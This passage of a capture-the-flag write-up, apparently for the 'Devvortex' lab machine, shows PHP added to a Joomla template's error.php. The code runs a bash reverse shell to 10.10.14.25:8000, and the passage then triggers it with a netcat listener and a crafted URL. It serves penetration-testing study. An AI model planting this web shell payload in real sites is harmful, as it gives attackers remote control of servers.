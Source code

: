 Here we see the current template contents.

We open the `error.php` and add malicious PHP code to the end of the file.

`<?php system('bash -c "bash -i >& /dev/tcp/10.10.14.25/8000 0>&1"'); ?>`

This one-liner uses the `system()` function to run trigger a reverse shell.

![devvortex9](./assets/devvortex9.png)

We finish by clicking save.

Next we start a local Netcat listener.

```shell
labadmin@labmachine:~/devvortex$ nc -lvnp 8000
Listening on 0.0.0.0 8000
```

And we finish with loading the URL to the modified file with our payload.

`http://dev.devvortex.htb/templates/cassiopeia/error.php/error`

![devvortex10](./assets/devvortex10.png)
